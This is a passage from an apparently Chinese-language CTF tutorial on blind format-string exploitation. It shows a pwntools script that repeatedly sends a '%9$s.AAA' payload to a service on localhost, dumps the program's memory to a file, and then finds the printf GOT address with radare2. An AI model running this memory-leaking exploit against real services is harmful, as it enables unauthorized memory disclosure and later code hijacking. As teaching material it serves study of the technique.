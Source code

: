 ```text
[*] Found format string offset: 7
```

### dump file

接下来我们就利用该漏洞把二进制文件从内存中 dump 下来：

```python
def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        #print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
start_addr = 0x8048000
end_addr   = 0x8049000
code_bin = dump_memory(start_addr, end_addr)
with open("code.bin", "wb") as f:
    f.write(code_bin)
    f.close()
```

这里构造的 paylaod 和前面有点不同，它把地址放在了后面，是为了防止 printf 的 `%s` 被 `\x00` 截断：

```python
payload = "%9$s.AAA" + p32(start_addr)
```

另外 `.AAA`，是作为一个标志，我们需要的内存在 `.AAA` 的前面，最后，偏移由 7 变为 9。

在没有开启 PIE 的情况下，32 位程序从地址 `0x8048000` 开始，0x1000 的大小就足够了。在对内存 `\x00` 进行 leak 时，数据长度为零，直接给它赋值就可以了。

于是就成了有二进制文件无 libc 的格式化字符串漏洞，在 r2 中查询 printf 的 got 地址：

```text
[0x08048490]> is~printf
vaddr=0x08048400 paddr=0x00000400 ord=002 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.printf
[0x08048490]> pd 3 @ 0x08048400
        :   ;-- imp.printf:
        :   0x08048400      ff2574990408   jmp dword [reloc.printf_116] ; 0x8049974
        :   0x08048406      6808000000     push 8                      ; 8
        `=< 0x0804840b      e9d0ffffff     jmp 0x80483e0
```

地址为 `0x8049974`。
